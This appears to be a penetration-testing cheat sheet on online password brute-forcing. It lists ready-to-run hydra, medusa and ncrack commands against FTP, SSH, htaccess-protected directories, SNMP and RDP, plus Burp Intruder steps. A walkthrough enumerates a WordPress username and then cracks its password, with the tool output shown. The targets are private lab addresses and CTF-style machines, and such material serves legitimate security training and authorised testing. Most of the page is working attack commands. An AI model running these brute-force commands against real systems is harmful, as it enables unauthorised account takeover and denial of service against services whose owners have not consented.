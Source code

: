 # Online Password Cracking

There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP.

> [https://tools.kali.org/password-attacks/hydra](https://tools.kali.org/password-attacks/hydra)

## Port 21 - FTP

```text
hydra -L users.txt -e nsr 192.168.56.102 ftp
# -e nsr try "n" null password, "s" login as pass and/or "r" reversed login
```

## Port 22 - SSH

```text
# Hydra
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V

# Example on kioptrix 3
hydra -e nsr -l loneferret -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 192.168.1.70 ssh -t 4

# Medusa 
# -e ns for additional password checks ([n] No Password, [s] Password = Username)
# -f Stop scanning host after first valid username/password found
# -M to specify the module to execute ie SSH
medusa -h 192.168.56.103 -U users.txt -P /usr/share/wordlists/rockyou.txt -e ns -f -M ssh
```

## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess \(I exaplin this in the chapter on Common ports\).

It can then be brute forced like this:

```text
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

### Logins

Use Burp suite.

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have nly one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.

#### Wordpress with hydra

Using BurpSuite, intercept a login attempt:

```text
POST /wp-login.php HTTP/1.1
Host: 192.168.2.4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.2.4/wp-login.php
Cookie: s_cc=true; s_fid=7F27FDE8AFB035AA-13A01347AD602162; s_nr=1550824589386; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 102

log=user&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.2.4%2Fwp-admin%2F&testcookie=1
```

We can bruteforce it using hydra:

```text
$ hydra -vV -L wordslist.txt -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

* **-vV** : Verbose
* **-L wordslist.txt** : Try all the usernames from the file wordslist.txt
* **-p wedontcare** : Use an unique password, it doesn’t matter \(we’re only interested in the username for now\)
* **192.168.2.4** : The IP of the machine we’re attacking
* **http-post-form** : What we’re trying to brute force, here a HTTP POST form
* **‘/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username’**
  * **/wp-login.php** : The path to where the form is located
  * **log=^USER^&pwd=^PASS^&wp-submit=Log+In** : The POST parameters to send. ^USER^ and ^PASS^ are placeholders that wiil be replaced with the actual values.
  * **F=Invalid username** : Consider an attempt as a failure \(F\) if the response contains the text _Invalid username_

After a few minutes, we get:

```text
[80][http-post-form] host: 192.168.124.139   login: elliot   password: wedontcare
```

Now we know there is a WordPress user named **elliot**. Let’s try to bruteforce his password using the same technique and word list:

```text
$ hydra -vV -l elliot -P wordslist.txt vm http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
[...]
[80][http-post-form] host: 192.168.2.4 login: elliot password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
```

## Port 161 - SNMP

```text
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```text
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```

